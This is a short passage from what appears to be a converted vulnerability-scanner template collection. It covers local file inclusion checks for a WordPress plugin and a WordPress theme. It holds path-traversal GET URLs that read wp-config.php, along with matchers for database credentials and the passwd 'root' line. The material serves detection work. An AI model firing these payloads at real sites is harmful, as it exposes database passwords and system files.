 **Type - regex**
- regex
    1. root:[x*]:0:0

**Type - status**
- status
    1. 200

---
# WordPress Aspose Words Exporter \<2.0 - Local File Inclusion
## Description
- WordPress Aspose Words Exporter prior to version 2.0 is vulnerable to local file inclusion.
- severity - high
- tags - wordpress,wp-plugin,lfi,aspose,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/aspose-doc-exporter/aspose_doc_exporter_download.php?file=../../../wp-config.php
### Matchers

**Type - word**
- words
    1. DB_NAME
    2. DB_PASSWORD
- part - body
- condition - and

**Type - status**
- status
    1. 200

---
# WordPress mTheme-Unus Theme - Local File Inclusion
## Description
- WordPress mTheme-Unus Theme is vulnerable to local file inclusion via css.php.
- severity - high
- tags - wpscan,packetstorm,wordpress,wp-theme,lfi,mtheme
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/themes/mTheme-Unus/css/css.php?files=../../../../wp-config.php
### Matchers
